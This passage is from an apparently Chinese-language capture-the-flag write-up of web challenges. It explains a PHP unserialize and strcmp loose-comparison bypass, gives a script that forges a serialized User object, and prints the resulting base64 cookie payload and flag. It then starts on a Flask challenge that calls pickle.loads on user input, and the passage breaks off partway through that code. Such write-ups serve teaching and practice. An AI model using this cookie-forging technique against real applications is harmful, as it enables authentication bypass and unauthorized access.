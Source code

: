 ```php
    setcookie(SESSION, base64_encode(serialize($user)), time() + 600);
    exit;
} else if ($data = @$_COOKIE[SESSION]) {
    $user = unserialize(base64_decode($data));
}

?>
```

可以發現有個User類別，而輸入的Name會被儲存在裡面，然後如果token跟Flag一樣的話就會印出Flag，然後這個User會被serialize後存在Cookie內，如果Cookie裏頭已經有內容的話則會拿出來Unserialze，所以User內的資料是可以被控制的!

觀察一下後在strcmp發現了弱比較的露洞。  
如果放進去的是兩個String，那回傳值只有`>0, <0, ==0`，可是放入其他不是String的東西的時候會回傳`NULL`。  
而`strcmp($flag, $this->token) == 0`用弱比較來檢查，所以`NULL`會被視為`0`，那這個驗證就可以被繞過啦。

我寫了一段php來產出最終的payload
```php
<?php
class User {
    public $name;
    private $token;

    function __construct($name) {
        $this->name = $name;
        $this->token = array('A', 'B');
    }

    function canReadFlag() {
        return strcmp($flag, $this->token) == 0;
    }
}

$user = new User('TwinkleStar03');
echo(base64_encode(serialize($user)));
?>

> Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6MTM6IlR3aW5rbGVTdGFyMDMiO3M6MTE6IgBVc2VyAHRva2VuIjthOjI6e2k6MDtzOjE6IkEiO2k6MTtzOjE6IkIiO319
```
最後把這段b64放到Cookie上，然後重整頁面Flag就出來了!

Flag: `AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}`

### 🐍Snake
這題一進到網頁就給出了Code
```python
from flask import Flask, Response, request
import pickle, base64, traceback

Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')
    
    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)
            
            if data and not data:
                return open('/flag').read()
```